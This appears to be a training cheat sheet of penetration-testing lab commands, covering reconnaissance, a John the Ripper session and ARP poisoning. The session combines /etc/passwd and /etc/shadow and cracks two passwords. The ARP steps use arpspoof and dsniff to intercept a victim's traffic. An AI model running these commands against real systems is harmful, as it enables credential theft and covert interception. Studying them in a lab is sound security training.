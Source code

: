 # CyberOps commands

Footprinting:
* `whois -H cisco.com | more`

Fingerprinting:
* `nping --tcp -p 22 10.10.6.1`

Access Attack Exploit Tools:
* Ncrack
* Aircrack-ng
* CeWL
* Crunch
* Medusa
* RainbowCrack
* John the Ripper:
  <pre>
  root@kali-1:~# <b>unshadow</b>
  Usage: unshadow PASSWORD-FILE SHADOW-FILE
  root@kali-1:~# <b>unshadow /etc/passwd /etc/shadow > pass.txt</b>
  root@kali-1:~# <b>john --wordlist=/usr/share/john/password.lst pass.txt</b>
  Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
  Use the "--format=crypt" option to force loading these as that type instead
  Using default input encoding: UTF-8
  Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
  Press 'q' or Ctrl-C to abort, almost any other key for status
  <b>test             (root)</b>
  <b>test             (admin)</b>
  2g 0:00:00:01 DONE (2018-08-25 22:28) 1.086g/s 139.1p/s 278.2c/s 278.2C/s lacrosse..franklin
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed
  </pre>

ARP Cache Poisoning
* `arpspoof -t 10.10.6.10 10.10.6.1` command, which will send a stream of ARP replies to 10.10.6.10 (Victim), spoofing
10.10.6.1 (the default gateway), and providing MITM's MAC address in the spoofed ARP replies.
The default gateway's ARP cache can also be poisoned, but this "half-duplex" poisoning is sufficient.
Return to the MITM desktop. Open a second terminal window and enter the `dsniff -c` command to start
dsniff in half duplex mode.
To allow the traffic that is intended for 10.10.6.1 that is forwarded to the MITM MAC address to be
forwarded to the real gateway, open a third terminal window. Use the `sysctl -w net.ipv4.ip_forward=1`
command to enable IP forwarding on MTIM machine.